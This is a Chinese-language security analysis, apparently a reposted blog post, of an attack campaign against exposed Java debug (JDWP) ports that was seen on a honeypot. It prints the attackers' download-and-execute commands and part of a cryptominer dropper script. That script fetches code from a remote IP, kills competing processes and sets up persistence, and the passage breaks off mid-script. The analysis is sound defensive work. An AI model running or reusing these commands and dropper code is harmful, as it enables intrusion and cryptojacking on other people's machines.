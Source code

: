 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tad8qaAFIXawYiaqLGFkpFibVpZCpNMdRWD9BZQA0ZBwBeqVdbWQhibYJ5Bke3mzdxkdSLrO4g6qqbHOw/640?wx_fmt=png&from=appmsg "")  
  
攻击流程  
  
在调查过程中，我们观察到来自不同攻击者的多次 JDWP 攻击尝试，但为了简单起见，我们决定在本篇博文中重点介绍一个事件，该事件可以作为整个攻击活动的一个很好的例子。请注意，附录中包含的攻击指标 (IoC) 适用于所有观察到的活动，而不仅仅是这起特定事件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tad8qaAFIXawYiaqLGFkpFibVpCMoicwt64xNPauHUaLzdwGOMn8BcRCQiaiaibBJ8zm5Q3IUibAy6BDAIicow/640?wx_fmt=webp&from=appmsg "")  
  
攻击者首先在互联网上扫描开放的 JDWP 端口。其中一次扫描到达了我们的蜜罐服务器，该服务器在 5005 端口上暴露了 JDWP。随后，攻击者发送请求，JDWP-Handshake确认接口处于活动状态并建立 JDWP 会话。JVM 响应了版本详细信息和已加载类的列表，确认 JDWP 确实已暴露并且完全可交互。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tad8qaAFIXawYiaqLGFkpFibVpAG4Y8UqRwMibt8Q1QlTe3pcAL2cJA7m3SSadRicOPJ5JLVx9ITwloqDA/640?wx_fmt=webp&from=appmsg "")  
  
上面是 Wireshark 的屏幕截图，显示了 JDWP-Handshake 协议。  
  
此后，攻击者按照结构化的顺序实现远程代码执行，可能使用了具有附加功能的jdwp-shellifier变体。他们查询 JVM 中可用的类和方法，然后找到java.lang.Runtime与其关联的getRuntime()方法exec()。  
  
涉及的利用步骤如下：  
  
1.创建包含系统命令的 Java 字符串，例如：  
  

```
curl -o /tmp/logservice.sh -s <https://canonicalconnect[.]com/logservice.sh>

bash /tmp/logservice.sh
```

  
  
2.Runtime.getRuntime()使用调用INVOKESTATICMETHOD_SIG  
  
3.将命令字符串传递给exec()使用INVOKEMETHOD_SIG  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tad8qaAFIXawYiaqLGFkpFibVpWxMkfbzfnG7DFPHvYhPpV4bCa4s2BW7icQ2ibKxgJdialQEaTaj8BQslg/640?wx_fmt=webp&from=appmsg "")  
  
上面是Wireshark的截图，显示了包含利用命令的JDWP数据包  
  
wget使用不同的命令组合（ 、等）重复这些步骤sh来下载并启动攻击负载。  
  
在底层，攻击者发出了低级 JDWP 指令，包括、、CreateString和方法调用签名。它们完全通过 JDWP 协议进行操作，无需访问应用程序本身。get_all_classesget_methods  
  
日志服务  
  
logservice.sh是一个具有以下功能的投放器脚本：  
- 杀死竞争矿工或任何高 CPU 进程（除一小部分允许进程外，任何使用超过 60% CPU 的进程）。  
  
- https[://]awarmcorner[.]world/silicon<architecture>blueprints.png放入一个来自的 XMRig 矿工  ~/.config/logrotate 并执行它。  
  
- .bashrc在每个 shell 启动文件（ 、等）、rc.local、systemd 和多个 cron 作业中安装持久钩子.zshrc，确保在每次 shell 登录、重启或预定间隔时重新获取并重新执行有效负载。  
  
- 退出时自行删除，几乎不留下任何痕迹。  
  

```
#!/bin/sh
{ pkill -f xmrig || kill -9 $(pgrep -f 'xmrig'); } >/dev/null 2>&1
ps -eo pid,%cpu,comm --sort=-%cpu | awk 'NR>1 && !/awk|ps/ && !($3 ~ /^(logrotate|sshd|java)$/) && int($2) > 60 { system(&#34;kill -9 &#34; $1) }'
EXEC=&#34;source <(wget -q -O - <http://185.196.8.123/logservice.sh> || curl -sL <http://185.196.8.123/logservice.sh>)&#34;
trap'rm -- &#34;$0&#34;' EXIT
if [ -z &#34;${HOME+x}&#34; ]; then
   export HOME=/tmp
fi
mkdir -p &#34;$HOME/.config&#34; >/dev/null 2>&1
[ ! -f &#34;$HOME/.config/logrotate&#34; ] && {
   ARCH=$(uname -m)
```